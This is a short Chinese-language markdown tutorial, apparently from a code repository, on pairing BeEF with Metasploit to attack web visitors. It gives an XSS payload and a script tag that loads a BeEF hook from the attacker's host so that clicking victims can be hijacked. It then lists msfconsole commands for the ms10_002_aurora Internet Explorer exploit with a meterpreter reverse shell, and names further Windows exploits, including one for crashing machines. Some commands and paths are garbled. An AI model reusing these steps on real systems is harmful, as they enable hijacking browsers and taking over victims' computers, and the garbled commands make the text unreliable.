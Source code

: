# beef-xss
## XSS反弹
`<script> alert("hello XSS")</script>` 
## beef-xss 和 msf框架 组合
### 环境要求：
一台kali: 192.168.200.1
### 劫持
运行beef \
`cd /use/share/beef-xss` \
`./beef` \
 \
会出现一个攻击地址和一个管理地址 \
<pre>
192.168.200.1:3000/hoos.js                                        /*攻击地址*/
<script>src="192.168.200.1:3000/hoos.js"</script>             /*上传这个，有人点击，你就可以通过beef管理进行劫持*/
192.168.200.1:3000/ui/panwl                                       /*管理地址，账号密码都是beef*/
</pre>
里面有一个是redirect选项是网站劫持，这个配合msf IE漏洞，很好用
### 漏洞利用
<pre>
msfconsole                               /*运行msfconsole*/ 
use windows/browser                    /*ms10_002_aurora /使用模块*/ 
set PAYLOAD windows                 /*meterpreter/reverse_tcp/设置攻击载荷*/ 
show options                              /*显示设置参数*/ 
set SRVHOST 192.168.200.1               /*制作的网站地址*/ 
set SRVPORT 7777                        /*制作的连接的端口*/ 
set URIPATH /                         /*运行的环境目录*/ 
set LHOST 192.168.200.1              /*侦听的地址*/ 
set LPORT 4444                        /*映射到的地址*/ 
run                                  /*制作*/
</pre>
将生产的网址通过劫持网站访问，就可以拿到meterpreter,即拿到shell
### IE漏洞
ms10_018 \
ms10_046 \
ms12_004 \
ms08_067 /比较老的入侵漏洞 \
ms12_020 /通过3389，搞蓝屏 
